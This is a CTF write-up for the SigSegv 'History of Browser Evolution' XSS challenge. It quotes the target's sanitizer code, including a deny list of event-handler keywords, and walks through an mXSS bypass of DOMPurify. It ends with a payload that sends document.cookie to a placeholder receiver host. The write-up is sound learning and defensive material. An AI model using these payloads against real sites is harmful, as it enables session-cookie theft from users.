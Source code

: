 This year SigSegv qualifiers are back 

# XSS challenge: History of Browser Evolution

You are tasked to steal the cookie from a web page. The target machine is running "Chrome with recent updates", so it is advisable to test it in chrome.


You have one URL to test your payloads and the other one to validate your flag. The validation page will pass the link to a bot which will trigger XSS.
```
http://qual-challs.rtfm.re:8080/
http://qual-challs.rtfm.re:8080/check
```
![Image](https://eqqn.github.io/images/hobe.jpg)
### Finding injection point
Since there is no obvious forms or input elements apparent, we look at the page source ( follow comments for my thought proccess ) :

```js
    var nuclearSanitizer = function (dirty) {
        var clean = dirty;
     //## These are directives banned by Developer
        forbiddenWords = ["onerror", "onload", "onunload", "img", "focus"];    
        
        for (const fw of forbiddenWords) {
            if (dirty.toLowerCase().includes(fw)) {
                console.log(fw);
                clean = "";
                break;
            }
        }
        return clean;
    }
    
    var getUrlParam = function (name) {
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        if (r != null) return r[2];
        return null;
    }

    var layout = getUrlParam("layout");      //## This is where the URL parameter is taken
    var clean = DOMPurify.sanitize(layout);
    
    // Hehe I made a custom sanitizer, no worriez
    clean = nuclearSanitizer(clean);

    var injectionPoint = document.getElementById("injection");
    injectionPoint.innerHTML = clean;
    injectionPoint.innerHTML = injectionPoint.innerHTML;
```

The *getUrlParam* function takes url parameter *layout* and puts it inside "injection" element of the webpage. 
Queries such as ` http://qual-challs.rtfm.re:8080/?layout=YOURSTRINGHERE ` will render on the page.

![Image](https://eqqn.github.io/images/hobe2.jpg)

However there is pesky **DOMPurify.sanitize(layout);** getting in our way of triggering the desired alert(1) box.
After giving automated tools a try ( XSStrike and Burpsuite) and trying to concatenate some form of `<script>alert(222)</script> `to render on the page I kept getting owned by the sanitizer. 

Alternatives from XSS cheat sheets[1][2]( that apply to chrome) didn't seem to work. However my friend point me to an interesting resource - DOMPurify bypass.

### Bypassing DOMPurify

There is an excellent write-up describing a recent vulnerability in DOMPurify, that uses browsers auto-fix feature to close the tags of HTML elements that are not properly matching.

More on this behaviour here : https://research.securitum.com/dompurify-bypass-using-mxss/

So the PoC payload referenced in the article looks like this : 

` <svg></p><style><a id="</style><img src=1 onerror=alert(1)>"> `
However it uses both **img** and **onerror** tags stripped by *NuclearSanitizer()*, so we can look once again at the cheat sheets and find other components that could do the trick. 

![Image](https://eqqn.github.io/images/hobe3.jpg)

`?layout=<svg></p><style><a id="</style><iframe src=1 onmouseover=alert(333)>"> `
With this I popped the first alert. DOMPurify is bypassed. Great, now to make it run without interaction and onto exfiltration. In this part you can get creative.

To steal the cookie, you need to make a request and transfer it to a domain you control. A convenient web service for that is "Requestbin", which allows you to make receive requests on their servers.

`?layout=<svg></p><style><a id="</style><iframe src=javascript:document.location='hxxps://REPLACE-WITH-YOUR-RECEIVER/'+ document.cookie>">`

Once we submit the full URL into the validator, a HTTP request is made to our cookie receiver server :

![Image](https://eqqn.github.io/images/hobe4.jpg)

`flag=sigsegv{pur1fy_mY_s0ul}`

This was a fun challenge, and I got to learn XSS the fun way. 


[1] Web Security Academy XSS cheat sheet https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

[2] Payload ALL the things XSS repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection


